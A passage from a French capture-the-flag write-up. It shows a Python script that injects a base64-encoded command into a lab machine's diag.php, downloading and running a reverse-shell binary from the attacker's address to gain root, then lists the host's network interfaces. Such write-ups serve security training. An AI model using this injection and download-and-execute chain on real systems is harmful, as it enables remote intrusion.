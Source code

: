 ```python
        "password": "NET_45JDX23"
    }
)

CMD = (
    "quagga;"
    "wget -O /tmp/.devloop.bin http://{}:8000/reverse.bin;"
    "chmod u+x /tmp/.devloop.bin;"
    "nohup /tmp/.devloop.bin&#"
).format(netifaces.ifaddresses("tun0")[2][0]["addr"])

print(CMD)
payload = b64encode(CMD.encode()).decode()
print(payload)
response = sess.post(
    "http://10.10.10.105/diag.php",
    data={"check": payload},
    headers={"Referer": "http://10.10.10.105/diag.php"}
)
print(response.text)
```

On obtient alors un accès root sur cette machine *Ubuntu 16.04.4 LTS (Xenial)*. Cela permet d'accéder au premier flag.  

La machine dispose de trois interfaces ethernet :  

```plain
eth0      Link encap:Ethernet  HWaddr 00:16:3e:d9:04:ea
          inet addr:10.99.64.2  Bcast:10.99.64.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fed9:4ea/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2213 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2141 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:1197755 (1.1 MB)  TX bytes:431471 (431.4 KB)

eth1      Link encap:Ethernet  HWaddr 00:16:3e:8a:f2:4f
          inet addr:10.78.10.1  Bcast:10.78.10.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe8a:f24f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:125 errors:0 dropped:0 overruns:0 frame:0
          TX packets:99 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:9150 (9.1 KB)  TX bytes:7799 (7.7 KB)

eth2      Link encap:Ethernet  HWaddr 00:16:3e:20:98:df
          inet addr:10.78.11.1  Bcast:10.78.11.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe20:98df/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:121 errors:0 dropped:0 overruns:0 frame:0
          TX packets:94 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:9000 (9.0 KB)  TX bytes:6981 (6.9 KB)
```
